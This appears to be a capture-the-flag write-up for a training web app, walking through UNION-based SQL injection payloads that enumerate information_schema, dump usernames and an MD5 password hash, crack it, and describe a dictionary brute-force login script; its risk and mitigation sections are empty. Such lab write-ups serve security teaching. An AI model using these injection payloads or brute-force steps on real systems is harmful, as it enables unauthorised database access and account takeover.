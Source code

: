 # a01 + a05

## How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
    * We understand that it looks for the content of db_default in the wrong database.
    * We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
    * We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
    * We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
    * We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
    * We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. 
    * There's 32 characters so it is probably hashed in MD5.
    * It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
    * Username : admin
    * Password : shadow

## Risks:


## How to avoid:


Sources:
* https://owasp.org/Top10/fr/A03_2021-Injection/
* https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
* https://www.sqlinjection.net/table-names/
* https://www.sqlinjection.net/column-names/
* https://www.acunetix.com/websitesecurity/sql-injection/